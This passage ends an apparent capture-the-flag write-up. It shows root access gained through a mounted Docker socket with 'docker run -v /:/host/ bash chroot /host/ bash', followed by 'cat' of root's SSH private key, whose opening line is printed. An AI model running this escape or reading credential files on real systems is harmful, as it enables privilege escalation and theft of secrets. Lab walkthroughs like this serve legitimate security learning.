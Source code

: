 ```
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```

<br>

## Docker

I check to see if **docker.sock** is mounted, and it is, so we can use that to our advantage:

`find / -name docker.sock 2>/dev/null`

```
/run/docker.sock
```

Getting a list of images:

`docker images`

```
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        3 years ago         15.8MB
```

And using the [**HackTricks mounted docker socket escape**](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#mounted-docker-socket-escape) we're able get root in the bash image:

`docker run -it -v /:/host/ bash chroot /host/ bash`

```
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@47c100e0d80b:/# whoami
root
```

This allows us to obtain the last objective by looking at **/root/.ssh/id_rsa**:

```
root@47c100e0d80b:~/.ssh# cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAuDSna2F3pO8vMOPJ4l2PwpLFqMpy1SWYaaREhio64iM65HSm
```

<br>

With that we've completed this CTF!

![](images/ultratech8.png)
